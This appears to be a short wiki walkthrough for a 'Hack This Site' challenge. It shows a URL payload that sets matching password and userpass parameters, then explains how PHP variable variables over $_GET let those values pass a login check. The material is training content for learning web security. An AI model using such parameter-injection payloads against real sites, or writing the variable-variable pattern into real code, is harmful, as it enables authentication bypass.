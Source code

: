 ### Solution

    moo.com/index.php?password=x&userpass=x

### Explanation

The hack is done in the following code :

    foreach ($_GET as $key => $value)
            { 
              $$key = $value; 
            }

\$\_GET is an array and basically this code means : \${\$key} = \$value
for each value you put in \$\_GET So if you put in \$\_GET password=x
and userpass=x you'll have: \$\_GET[password]=x and \$\_GET[userpass]=x
and the foreach will do \$password=x; \$userpass=x; and we will have
\$userpass == \$password

[Category:Hack This Site](Category:Hack This Site "wikilink")
